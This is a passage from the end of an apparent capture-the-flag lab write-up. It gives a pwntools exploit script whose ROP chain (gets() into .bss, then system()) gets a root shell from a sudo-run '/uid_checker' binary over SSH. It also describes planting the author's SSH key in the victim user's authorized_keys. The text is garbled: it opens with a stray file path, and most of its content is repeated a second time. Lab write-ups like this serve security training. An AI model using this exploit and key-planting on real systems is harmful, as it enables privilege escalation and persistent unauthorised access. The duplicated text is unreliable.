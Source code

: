 offset = 88 # Found with ropstar

payload = cyclic(offset)
payload += p64(0x400803) # pop r15; ret
payload += p64(0x601060) # .bss
payload += p64(0x4005b0) # gets()
payload += p64(0x400803) # pop r15; ret
payload += p64(0x601060) # .bss
payload += p64(0x400570) # system()

s = ssh(host='dave.thm', user='dave', keyfile='f3dai')

p = s.process(['sudo', '/uid_checker'])
print(p.recv())
p.sendline(payload)
print(p.recv())
p.sendline("/bin/sh")
p.interactive(prompt='')</pre>

Notice how we will be using SSH with 

<pre>s = ssh(host='dave.thm', user='dave', keyfile='./f3dai')</pre>

You must create a directory under Dave's home directory and add your ssh key to authorized_keys. 

Please note, I had to use ssh-keygen to convert my key to the classic OpenSSH format to allow pwntools to connect via SSH:

<pre>ssh-keygen -p -f f3dai -m pem -P "" -N ""</pre>

Executing our script gives us a root shell:

![root!](https://imgur.com/hPs8yRA.png)

Thank you for reading!





p = s.process(['sudo', '/uid_checker'])
print(p.recv())
p.sendline(payload)
print(p.recv())
p.sendline("/bin/sh")
p.interactive(prompt='')</pre>

Notice how we will be using SSH with 

<pre>s = ssh(host='dave.thm', user='dave', keyfile='./f3dai')</pre>

You must create a directory under Dave's home directory and add your ssh key to authorized_keys. 

Please note, I had to use ssh-keygen to convert my key to the classic OpenSSH format to allow pwntools to connect via SSH:

<pre>ssh-keygen -p -f f3dai -m pem -P "" -N ""</pre>

Executing our script gives us a root shell:

![root!](https://imgur.com/hPs8yRA.png)

Thank you for reading!
